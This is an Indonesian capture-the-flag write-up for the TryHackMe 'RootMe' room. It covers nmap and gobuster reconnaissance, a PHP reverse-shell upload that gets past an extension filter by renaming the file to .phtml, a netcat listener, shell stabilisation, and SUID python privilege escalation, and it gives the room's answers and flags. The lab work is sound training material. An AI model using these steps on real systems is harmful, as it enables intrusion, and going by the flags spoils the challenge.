 # CTF RootMe
- TryHackMe Challenge: https://tryhackme.com/room/rrootme
- IP Machine: 10.10.213.79

## Task 2 Reconnaissance
- Lakukan scanning menggunakan tool nmap dengan perintah: `nmap -sV -sC <IP Machine>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%201.JPG)

- Lakukan web directory brute force menggunakan tool gobuster dengan perintah: `gobuster dir -u http://<IP Machine> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%202.JPG)

- Buka halaman web `http://<IP_Machine>` di browser

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%203.JPG)

- Dari hasil brute force gobuster diatas ditemukan halaman **/panel**. Kita bisa membuka di browser dengan url `http://<IP_Machine>/panel` di browser. Setelah dibuka, halaman tersebut berisi form untuk upload file

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%204.JPG)

- **Pertanyaan:** Scan the machine, how many ports are open?
```sh
2
```

- **Pertanyaan:** What version of Apache is running?
```sh
2.4.29
```

- **Pertanyaan:** What service is running on port 22?
```sh
ssh
```

- **Pertanyaan:** What is the hidden directory?
```sh
/panel/
```

## Task 3 Getting a shell
- Disini kita memanfaatkan celah keamanan **File Upload Vulnerabilities**. Salah satunya adalah dengan mengunggah file php reverse shell ke halaman upload file. Kita bisa mengunduh file php-reverse-shell di https://pentestmonkey.net/tools/web-shells/php-reverse-shell
- Setelah berhasil diunduh, edit file **php-reverse-shell.php** dengan menggunakan tool nano. Ubah ip dengan IP tun0 di komputer yang anda gunakan dan disini kita memakai port 4444 sebagai listening

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Vulnversity/assets/ver%204.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Vulnversity/assets/ver%205.JPG)

- Unggah file **php-reverse-shell.php** yang sudah diedit ke halaman `http://<IP_Machine>/panel` dan tekan Upload. Setelah di submit ternyata muncul pesan bahwa extensi file tidak di izinkan

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%205.JPG)

- Sekarang kita coba ubah ekstensi **.php** menjadi **.phtml** dengan perintah `mv php-reverse-shell.php php-reverse-shell.phtml`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%206.JPG)

- Unggah file **php-reverse-shell.phtml** ke halaman `http://<IP_Machine>/panel` dan tekan Upload. Hasilnya file berhasil terunggah

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%207.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%208.JPG)

- Buka terminal dan jalankan netcat dengan perintah `nc -lnvp <port>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%209.JPG)

- Buka halaman web `http://<IP_Machine>/uploads` di browser. Disini terdapat file **php-reverse-shell.phtml** yang sudah kita unggah sebelumnya. Klik file tersebut untuk menjalankannya

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2010.JPG)

- Setelah payload dijalankan, netcat berhasil terkoneksi dengan shell server

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2011.JPG)

- Disini shell tidak stabil, kita bisa melakukan perintah berikut untuk mendapatkan shell server yang stabil
```sh
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2012.JPG)

- File **user.txt** tidak ditemukan di home directory, jadi kita mencari di directory lain dengan perintah `find / -type f -name user.txt`. Ternyata file **user.txt** berada di path **/var/www/user.txt**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2013.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2014.JPG)

- Buka file **user.txt** dengan perintah `cat <path>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2015.JPG)

- **Pertanyaan:** user.txt
```sh
THM{y0u_g0t_a_sh3ll}
```

## Task 4 Privilege escalation
- Cari semua SUID yang dapat dieksekusi dengan perintah dibawah
```sh
find / -type f -user root -perm -4000 2>/dev/null
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2016.JPG)

- Dari perintah diatas ditemukan file **/usr/bin/python** yang bisa digunakan untuk mengeskalasi user root

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2017.JPG)

- Kita bisa memanfaatkan script di https://gtfobins.github.io/gtfobins/python/#suid untuk mendapatkan akses root melalui SUID file python. Kita cukup menjalankan 1 baris perintah dibawah ini untuk mendapatkan akses root
```sh
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2018.JPG)

- Sekarang kita tinggal membaca file **root.txt** sebagai root flag dengan perintah `cat /root/root.txt`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/RootMe/assets/rm%2019.JPG)

- **Pertanyaan:** Search for files with SUID permission, which file is weird?
```sh
/usr/bin/python
```

- **Pertanyaan:** root.txt
```sh
THM{pr1v1l3g3_3sc4l4t10n}
```